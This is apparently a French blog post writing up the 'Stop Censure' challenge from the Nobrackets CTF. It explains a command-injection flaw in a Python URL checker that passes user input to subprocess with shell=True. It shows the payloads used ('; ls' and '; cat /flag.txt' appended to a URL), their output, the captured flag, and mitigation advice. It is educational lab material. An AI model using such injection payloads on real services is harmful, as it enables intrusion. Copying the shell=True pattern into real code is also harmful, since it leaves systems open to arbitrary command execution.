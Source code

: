 ```yaml
---

layout: post  
title: Stop Censure  
subtitle: Write-Up pour le Nobrackets CTF  
tags: [writeup, injection, command, CTF]  
comments: true

---
```


Salut ! Voici mon write-up sur le challenge **Stop Censure** du Nobrackets CTF. Ce challenge exploite une vulnérabilité d'injection de commande, à travers l'utilisation de `subprocess. Merci à `Drahoxx` ! 

## Premier coup d'œil

Le challenge nous demande de vérifier si un site est censuré ou non via un service accessible en utilisant `netcat`. Voici comment accéder au service :

```bash
nc node1.nobrackets.fr 20764
```

Une fois connecté, on nous demande de saisir une URL pour vérifier si elle est bloquée. L'objectif est d'exploiter cette interface pour accéder au fichier `/flag.txt`.

## Analyse du code

Voici le code source du service `chall.py` fourni :

```python
#!/usr/bin/env python3
import subprocess
import re

# Regex qui détermine les sites légaux
pattern = r'https?://[a-zA-Z0-9.-]+\.nobrackets\.fr(/[a-zA-Z0-9./?%_-]*)?'

# Fonction de vérification de la légalité d'une url
def is_legal_url(url):
    return re.match(pattern, url) is not None

# Bannière
print("----------------------------")
print("~~ Ce site est-il légal ? ~~")
print("----------------------------")

# Entrée utilisateur
value = input("Entrez un site (eg: https://wiki.nobrackets.fr/) >>> ")

# Vérification que l'entrée utilisateur ne soit pas vide
if not value:
    print("Erreur. Veuillez entrer une URL.")
    exit(-1)

# Vérification de la légalité de l'URL entrée
if not is_legal_url(value):
    print("Erreur. Votre URL est soit mal formatée soit illégale !")
    exit(-1)

# Test de l'existence du site
process = subprocess.run("curl -I "+value, capture_output=True, shell=True)
res = process.stdout
if not res:
    print("Erreur. Le site ne semble pas exister.")
    exit(-1)

# Affichage de l'échange
print("Succès ! Le site est légal et fonctionnel ! Voici ses informations : \n\n")
print(res.decode())
exit(0)
```

Le programme utilise `subprocess.run()` pour exécuter la commande `curl` et tester si l'URL existe. Toutefois, le problème réside dans l'utilisation de l'option `shell=True` avec la commande construite à partir de l'entrée utilisateur. Cela permet une injection de commande si la saisie utilisateur n'est pas correctement contrôlée.

## Exploitation

Pour tester si l'injection de commande fonctionne, j'ai essayé de lister les fichiers avec une commande `ls` :

```bash
nc node1.nobrackets.fr 20764
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr; ls
```

L'output est le suivant :

```bash
Succès ! Le site est légal et fonctionnel ! Voici ses informations :

HTTP/2 200 
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Fri, 11 Oct 2024 22:00:15 GMT
access-control-allow-origin: *
etag: "67099fef-a60b"
expires: Thu, 17 Oct 2024 16:28:13 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: 5066:0DB5:E147C0:E7B1C4:671138C4
accept-ranges: bytes
date: Thu, 17 Oct 2024 17:58:50 GMT
via: 1.1 varnish
age: 0
x-served-by: cache-par-lfpg1960039-PAR
x-cache: HIT
x-cache-hits: 1
x-timer: S1729187930.281473,VS0,VE129
vary: Accept-Encoding
x-fastly-request-id: 561b2b3cd07d5177045d938ec4be4fc947ef1304
content-length: 42507

chall.py
```

Nous pouvons voir que la commande `ls` a bien été exécutée et que le fichier `chall.py` est listé dans le répertoire.

### Accès au Flag

L'étape suivante consiste à injecter une commande pour lire le fichier `/flag.txt`. Voici la commande complète :

```bash
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr; cat /flag.txt
```

Voici l'output obtenu :

```bash
Succès ! Le site est légal et fonctionnel ! Voici ses informations :

HTTP/2 200 
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Fri, 11 Oct 2024 22:00:15 GMT
access-control-allow-origin: *
etag: "67099fef-a60b"
expires: Thu, 17 Oct 2024 16:28:13 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: 5066:0DB5:E147C0:E7B1C4:671138C4
accept-ranges: bytes
age: 106
date: Thu, 17 Oct 2024 18:00:36 GMT
via: 1.1 varnish
x-served-by: cache-par-lfpg1960025-PAR
x-cache: HIT
x-cache-hits: 0
x-timer: S1729188037.902421,VS0,VE1
vary: Accept-Encoding
x-fastly-request-id: b7bb977154518a58b081de81a79f9fc6db83fd4d
content-length: 42507

NBCTF{#FreeTheInternet}
```

Le flag est bien récupéré : **NBCTF{#FreeTheInternet}**.

## Conclusion

Ce challenge montre une autre forme d'injection de commande, cette fois-ci via la bibliothèque `subprocess` avec `shell=True`, qui permet à des utilisateurs malveillants d'exécuter des commandes arbitraires. Pour sécuriser ce type d'application, il est recommandé de désactiver `shell=True` et d'utiliser des commandes bien délimitées, tout en validant rigoureusement les entrées utilisateur.

Merci encore à `Drahoxx` pour ce challenge captivant !
